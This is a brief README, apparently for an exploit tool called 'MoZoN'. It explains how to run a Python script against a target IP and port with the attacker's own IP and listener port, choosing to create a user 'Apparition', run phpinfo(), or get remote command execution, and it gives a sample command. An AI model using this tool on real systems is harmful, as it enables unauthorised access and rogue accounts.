 # MoZoN
Replace <target_IP>, <target_port>, <your_IP>, <your_port>, and <exploit_selection> with your actual values. The <exploit_selection> should be one of the following:

1 for creating the user 'Apparition'
2 for executing phpinfo()
3 for remote command execution

python3 script.py 192.168.10.1 90 192.168.10.253 4444 3
